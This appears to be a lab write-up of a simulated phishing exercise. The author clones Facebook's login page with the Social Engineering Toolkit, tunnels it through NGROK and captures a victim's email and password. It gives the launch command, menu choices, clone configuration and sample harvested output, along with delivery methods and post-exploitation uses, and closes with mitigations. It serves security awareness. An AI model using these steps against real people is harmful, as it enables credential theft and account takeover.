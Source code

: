 # Credential Harvesting via Phishing Attack – Facebook Clone

---

## 1. Summary

**Objective:**  
Simulate a credential harvesting attack targeting Facebook users by deploying a phishing campaign using the **Social Engineering Toolkit (SET)**. The intent was to demonstrate how attackers can gather valid credentials for potential post-exploitation actions.

**Method:**  
A cloned version of Facebook’s login page was hosted on a Kali Linux virtual machine using SET. The site was made publicly accessible via an NGROK tunnel and delivered to the target to collect login credentials.

---

## 2. Tools and Environment

- **Operating System:** Kali Linux (VM)
- **Tool Used:** Social Engineering Toolkit (SET)
- **Tunnel Service:** NGROK
- **Targeted Service:** Facebook (cloned login interface)

---

## 3. Attack Chain

### 3.1 Launching SET

Executed the following command:

```bash
sudo setoolkit
Selected the following options:

1) Social-Engineering Attacks

2) Website Attack Vectors

3) Credential Harvester Attack Method

2) Site Cloner

3.2 Cloning the Target
Cloning URL: http://facebook.com

IP Address / NGROK URL: <NGROK_URL>

Note: HTTPS was avoided to prevent certificate mismatch issues.

Example configuration:

bash
Copy
Edit
IP address for the POST back: <NGROK_URL>
Website to clone: http://facebook.com
SET cloned the target site and hosted it locally via Apache.

4. Delivery Mechanism
The cloned page was shared via the NGROK URL. Delivery can occur through various social engineering methods:

Phishing emails

SMS messages

Fake support calls

⚠️ Disclaimer: Delivery methods were not the focus of this exercise.

5. Execution and Result
5.1 Victim Interaction
When the victim clicked the NGROK link, the Facebook login clone was displayed. Upon entering credentials, the data was captured and shown on the attacker's terminal.

Captured fields:

Email / Phone

Password

5.2 Captured Output
Example:

yaml
Copy
Edit
[*] WE GOT A HIT! Printing the output:
PARAM: email=targetuser@example.com
PARAM: pass=supersecretpassword123
6. Post-Exploitation Potential
Captured credentials may allow:

Unauthorized access to Facebook or associated accounts

Credential reuse in other platforms

Social engineering via phone/email

MFA bypass attempts via SIM swap or phishing

7. Mitigation Recommendations
Enforce HTTPS and HSTS

Enable multi-factor authentication

Educate users on phishing tactics

Use anti-phishing browser extensions

Monitor for cloned or typosquatted domains

8. Conclusion
This phishing exercise successfully demonstrated how an attacker could use SET to clone a legitimate website and capture credentials. Despite its simplicity, the method is effective and reinforces the need for strong security awareness and defensive controls.

Performed by:
Marcelo Lones
Cybersecurity Analyst / Offensive Security Enthusiast

